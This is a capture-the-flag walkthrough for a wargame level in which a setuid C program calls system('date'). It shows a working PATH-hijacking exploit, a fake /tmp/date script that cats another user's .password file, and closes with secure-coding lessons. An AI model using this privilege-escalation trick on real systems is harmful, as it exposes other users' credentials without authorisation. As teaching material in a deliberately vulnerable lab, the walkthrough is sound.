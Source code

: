 ## Level 1: don't use the system function in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All the levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable programs and their source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  it comes from the file `motd.txt` in the user's home directory,
  so you can re-read it anytime.

- The explanation of the level always contains a hint to beat the challange, so it's good to read it carefully.

Let's get started!
Taking the hint from the message after login,
look at the files in the `/levels/level01` directory:

    level00@box:~$ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Notice the user permission `rws` on the file `level01`.
The setuid bit is set,
so when we run this program,
it will have the access permissions of `level01`,
the owner of the file,
instead of our current user.
Let's run it to see what it does:
```
level00@box:~$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

It simply prints the current date and time.
Let's see how this is implemented in the source code:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Instead of using a native C function to get the date,
the program calls the `system` function to run the `date` command.
We can look up what `system` does exactly with `man system`:
it executes the specified command by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
for each directory defined in `PATH`,
it checks if there is an executable file,
and it runs the first match.
We can easily exploit this by creating our own script named `date`,
prepend its base directory to `PATH`,
and make it print the contents of `/home/level01/.password`.
Here we go:

```
level00@box:~$ echo '#!/bin/cat /home/level01/.password' > /tmp/date
level00@box:~$ chmod +x /tmp/date 
level00@box:~$ PATH=/tmp /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as user `level01` using the revealed password.

### Lessons to learn

- Read well the documentation, especially the warnings about usage:
  `man system` warns that it should not be used in setuid programs.

- Don't use the `system` function.
  Or if you must, at least use it only with absolute paths.

- Beware of environment variables that users can manipulate to alter the behavior of your programs.

